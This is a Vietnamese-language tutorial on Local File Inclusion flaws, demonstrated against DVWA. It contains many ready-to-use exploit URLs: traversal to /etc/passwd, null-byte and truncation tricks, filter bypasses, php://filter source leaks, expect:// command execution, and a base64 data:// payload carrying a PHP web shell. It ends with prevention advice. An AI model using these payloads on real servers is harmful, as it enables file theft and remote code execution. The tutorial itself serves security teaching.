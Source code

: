 # Local File Inclusion(LFI) - Bao gồm tệp cục bộ
## 1. Sơ lược
Local File Inclusion(LFI) là một lỗ hổng trong ứng dụng web cho phép kẻ tấn công đưa vào một tệp đã tồn tại trên máy chủ thông qua đường dẫn có sử dụng cơ chế bao gồm tập tin động(dynamic file inclusion) mà không xem xét nó là đầu vào đáng tin cậy hay không. Tệp này có thể là tệp hệ thống nhạy cảm, tệp cấu hình hoặc bất kỳ tệp nào khác mà kẻ tấn công có thể đọc được. Bằng cách bao gồm tệp này, kẻ tấn công có thể đọc nội dung của nó, có thể chứa thông tin nhạy cảm như mật khẩu hoặc dữ liệu bí mật khác.
## 2. Làm sao nhận biết web có lỗ hổng LFI
Để biết liệu một trang web có lỗ hổng LFI hay không, chúng ta có thể thực hiện đánh giá lỗ hổng hoặc kiểm tra thâm nhập trên trang web bằng các công cụ tự động như trình quét lỗ hổng hoặc thủ công bằng cách thử truy cập các tệp cục bộ trên máy chủ bằng cách thao tác các tham số đầu vào của ứng dụng.

Ở đây chúng ta sẽ lấy DVWA để thử.

Khi bắt đầu, chúng ta thấy trang web có ba liên kết đến file1.php, file2.php và file3.php
Bấm các trang. Có vẻ như điều duy nhất thay đổi là tham số trang. Khi nhấp vào từng liên kết, trang sẽ thay đổi tương ứng. Hãy bắt đầu kiểm tra lỗ hổng LFI như sau:
```powershell
http://192.168.0.101/dvwa/vulnerabilities/fi/?page=file4.php
```
Và file4.php hiện ra, cho chúng ta biết khả năng có lỗ hổng LFI ở đây
Để chắc chắn hơn chúng ta có thể thử thêm vài thứ
```powershell
http://192.168.0.101/dvwa/vulnerabilities/fi/?page=https://google.com
```
Bùm, trang google đã được chèn thêm vào trang web
## 3. Cách thức khai thác
Khai thác LFI khá giống với Directory & Path Traversal

Ở đây chúng ta thêm `../ ` để trở lại các thư mục trước đó và thêm `etc/passwd` là file cần tìm
```powershell
http://192.168.0.101/dvwa/vulnerabilities/fi/?page=../../../etc/passwd
```
Nếu may mắn thì chúng ta sẽ thấy dc thứ sau đây
```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
alex:x:500:500:alex:/home/alex:/bin/bash
margo:x:501:501::/home/margo:/bin/bash
...
```
Chú ý: Số lượng ```../``` phụ thuộc vào nơi server được đặt ở đâu trong cây thư mục

#### Null byte Injection
Ở các phiên bản PHP dưới 5.3.4, chúng ta có thể kết thúc bằng byte rỗng.
```powershell
http://example.com/index.php?page=../../../etc/passwd%00
```
#### Path and dot truncation
Trên hầu hết các bản cài đặt PHP, tên tệp dài hơn 4096 byte sẽ bị cắt bớt nên phần dư ra sẽ bị loại bỏ
```powershell
http://example.com/index.php?page=../../../etc/passwd............[thêm nữa]
http://example.com/index.php?page=../../../etc/passwd\.\.\.\.\.\.[thêm nữa]
http://example.com/index.php?page=../../../etc/passwd/./././././.[thêm nữa] 
http://example.com/index.php?page=../../../[thêm nữa]../../../../etc/passwd
```
#### Filter bypass tricks
Một số trang có hệ thống lọc như  `str_replace( array( "../", "..\\" ), "", $file )` hoặc `strpos($file, '../..')` Chúng ta có thể "hack" nó như sau:
```powershell
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=.././.././etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
```
#### Sử dụng wrappers
1. Wrapper php://filter
- Phần "`php://filter`" không phân biệt hoa, thường
```powershell
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```
Wrapper có thể được xâu chuỗi bằng trình bao bọc nén cho các tệp lớn.
```powershell
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```
Chú ý: Wrapper có thể xâu chuỗi để thực hiện nhiều lệnh bằng cách sử dụng `|` or `/`
- Base64 giải mã nhiều lần: `php://filter/convert.base64-decoder|convert.base64-decode|convert.base64-decode/resource=`
- Nén và mã hóa (hữu dụng khi bị giới hạn chữ): `php://filter/zlib.deflate/convert.base64-encode/resource=`
2. Wrapper expect://
```powershell
http://example.com/index.php?page=expect://id
http://example.com/index.php?page=expect://ls
```
3. Wrapper data://
```powershell
http://example.com/page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
Chú ý: payload là "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```

## 4. Hậu quả
Điều này có thể dẫn đến điều gì đó như xuất nội dung của tệp, nhưng tùy thuộc vào mức độ nghiêm trọng, nó cũng có thể dẫn đến:

- Thực thi mã trên máy chủ web(RCE)

- Thực thi mã ở phía máy khách, chẳng hạn như JavaScript

- Cross-site scripting (XSS)

- Từ chối dịch vụ (DoS)

- Tiết lộ thông tin nhạy cảm như thông tin người dùng, mật khẩu...
## 5. Cách ngăn chặn, hạn chế
- Xác thực đầu vào: Đảm bảo rằng tất cả đầu vào của người dùng được xác thực một cách cẩn thận để ngăn kẻ tấn công khai thác lỗ hổng. Hoặc tránh bao gồm động các tệp dựa trên đầu vào của người dùng. Nên duy trì một danh sách trắng các tệp có thể được phép truy cập

- Phân quyền file: Đảm bảo rằng cách phân quyền của hệ thống tệp được thiết lập chính xác để người dùng trái phép không thể đọc được các tệp nhạy cảm.

- Hạn chế quyền truy cập: Giới hạn quyền truy cập vào các tệp nhạy cảm bằng cách đặt chúng vào một thư mục riêng với quyền truy cập bị hạn chế và đảm bảo rằng máy chủ web không thể truy cập các thư mục cha.

- Tường lửa: Định cấu hình tường lửa để chặn lưu lượng truy cập đến từ các nguồn không đáng tin cậy để ngăn kẻ tấn công truy cập vào máy chủ thông qua lỗ hổng LFI.

- Luôn cập nhật: Luôn cập nhật ứng dụng web và phần mềm máy chủ với các bản sửa lỗi và bản vá bảo mật mới nhất.

